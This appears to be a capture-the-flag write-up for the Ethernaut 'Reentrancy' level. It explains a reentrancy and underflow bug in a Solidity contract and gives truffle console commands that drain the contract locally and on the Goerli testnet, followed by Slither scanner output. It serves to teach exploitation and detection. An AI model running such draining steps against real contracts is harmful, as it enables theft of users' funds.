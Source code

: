 # Reentrancy

[Reentrancy](https://ethernaut.openzeppelin.com/level/0x573eAaf1C1c2521e671534FAA525fAAf0894eCEb)

_Steal all the funds from the contract._


This contract is vulnerable to re-entrancy and has an underflow bug too.  Re-entrancy allows us to call back and over-withdraw. The underflow vulnerability allows us to get away with the attack as the balance underflow does not throw an error.

The solidity version of the vulnerable contract is very important.
From Solidity 0.8.x underflow protection is included. This effectively blocks the attack. 

Specifically the withdraw() line:
```JS
balances[msg.sender] -= _amount;
```

Extra dependency:
```BASH
npm i @openzeppelin/contracts
```

<BR />

## Test Attack

```BASH
truffle develop
```

```JS
migrate

r1 = await Reentrance.deployed()
await r1.donate(accounts[1], {from: accounts[5], value: 12300})

attack = await Attack.deployed()
await attack.donate({value: 10000})
await web3.eth.getBalance(r1.address)
(await r1.balanceOf(accounts[1])).toString()
(await r1.balanceOf(attack.address)).toString()
await attack.withdraw(10000)

await web3.eth.getBalance(attack.address)
await web3.eth.getBalance(r1.address)
```

<BR />

## Live Attack

```BASH
truffle console --network goerli
```

```JS
r1 = await Reentrance.at("0x9C26748d6e0803A3094da1805b1579B7831E628C")
await web3.eth.getBalance(r1.address)

attack = await Attack.deployed()
sender = accounts[5]
await attack.donate({from: sender, value: 1E16})
await attack.withdraw("10000000000000000", {from: sender, gas: 100000})
```

<BR />


## Vulnerability Testing Tools


<BR />

### Slither

__Bug Detect:__ Reentrancy.

__Bug Not Detect:__ Underflow.


```BASH
solc-select use 0.6.12
slither ./contracts/Reentrance.sol  --truffle-ignore-compile  --exclude-optimization 
```

```
Reentrancy in Reentrance.withdraw(uint256) (contracts/Reentrance.sol#19-27):
        External calls:
        - (result) = msg.sender.call{value: _amount}() (contracts/Reentrance.sol#21)
        State variables written after the call(s):
        - balances[msg.sender] -= _amount (contracts/Reentrance.sol#25)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities

Low level call in Reentrance.withdraw(uint256) (contracts/Reentrance.sol#19-27):
        - (result) = msg.sender.call{value: _amount}() (contracts/Reentrance.sol#21)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#low-level-calls

Parameter Reentrance.donate(address)._to (contracts/Reentrance.sol#10) is not in mixedCase
Parameter Reentrance.balanceOf(address)._who (contracts/Reentrance.sol#15) is not in mixedCase
Parameter Reentrance.withdraw(uint256)._amount (contracts/Reentrance.sol#19) is not in mixedCase
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#conformance-to-solidity-naming-conventions

Redundant expression "_amount (contracts/Reentrance.sol#23)" inReentrance (contracts/Reentrance.sol#5-31)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#redundant-statements
./contracts/Reentrance.sol analyzed (1 contracts with 76 detectors), 6 result(s) found
```

